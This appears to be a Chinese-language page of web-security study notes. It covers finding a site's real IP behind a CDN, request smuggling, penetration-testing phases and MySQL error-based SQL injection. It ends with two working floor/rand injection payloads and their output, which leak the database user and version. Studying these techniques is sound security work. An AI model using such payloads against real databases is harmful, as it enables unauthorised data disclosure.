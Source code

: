 # 网络安全

## [绕过 CDN 获取真实 IP](https://xie.infoq.cn/article/1b1d530f772e33b669f6cbedf)

1. 通过 DNS 历史记录
2. 查询子域名
3. shodan
4. tls 证书
5. 利用网站返回的内容寻找真实原始 IP

## HTTPS 加密过程

![https](https://user-gold-cdn.xitu.io/2018/1/5/160c5b10d3f27e00?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)

# web 安全

## 请求走私的原理，请求走私的类型有哪些

https://portswigger.net/web-security/request-smuggling#what-is-http-request-smuggling

## 渗透测试方法论

* Planning
* Reconnaissance
* Threat Modeling
* Testing and Exploitation
* Post Exploitation
* Reporting

## error based SQL 注入

Mysql 报错注入主要分为以下几类：

* BIGINT 等数据类型溢出
* xpath 语法错误
* concat+rand()+group_by 导致主键重复
* 空间数据类型函数错误

### floor

```
mysql> select * from admin where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1062 - Duplicate entry 'root@localhost1' for key 'group_key'


mysql> select * from admin where id=1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1062 - Duplicate entry '5.5.531' for key 'group_key'
```
